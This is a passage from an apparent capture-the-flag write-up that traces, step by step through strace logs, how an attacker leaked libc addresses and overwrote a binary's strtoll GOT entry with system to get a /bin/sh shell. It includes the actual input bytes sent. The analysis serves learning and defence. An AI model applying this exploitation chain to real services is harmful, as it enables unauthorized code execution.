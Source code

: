 ```
                             PTR_puts_00603020 XREF[1]:     puts:00400890  
        00603020 08 40 60        addr       puts
                 00 00 00 
                 00 00
```

The last line above in the trace is the leak being emitted as stdout.  From here it is easy to compute the base of libc.  And since each team is hosting the same services, there's no mystery what version of libc is being used.


#### Step 4: `strtoll` -> `system`

```
read(0, "1\n", 4096)                    = 2
write(1, "Where do you want to write?", 27) = 27
write(1, "\n", 1)                       = 1
read(0, "6303856\n8\n\300\331_\234|\177\0\0\n", 4096) = 19
write(1, "How much do you want to write?", 30) = 30
```

Next our attacker updated the `strtoll` GOT entry (`6303856` -> `0x603070` -> `strtoll`) with location of `system`.


#### Step 5: Pass `/bin/sh` to `system`

```
read(0, "0\n/bin/sh\n", 4096)           = 10
```

Our uninvited guest is almost there.  From the main menu a `0` is entered, and at the `
Enter the sector's size:"` prompt, `/bin/sh` is passed, but there's no `strtoll` to safely convert to an integer, it's `system` now, and a new process is forked with a shell:

```
rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7c9c5f0840}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7c9c5f0840}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=NULL, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0x7ffca4f385bc) = 9805
wait4(9805, [{WIFSIGNALED(s) && WTERMSIG(s) == SIGTERM}], 0, NULL) = 9805
```

Looks like PID 9805.  Switching to `foo.9805`:

```
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7c9c5f0840}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7c9c5f0840}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
execve("/bin/sh", ["sh", "-c", "/bin/sh\n"], 0x7ffca4f38950 /* 10 vars */) = 0
...
getpid()                                = 9805
...
getppid()                               = 9544
```

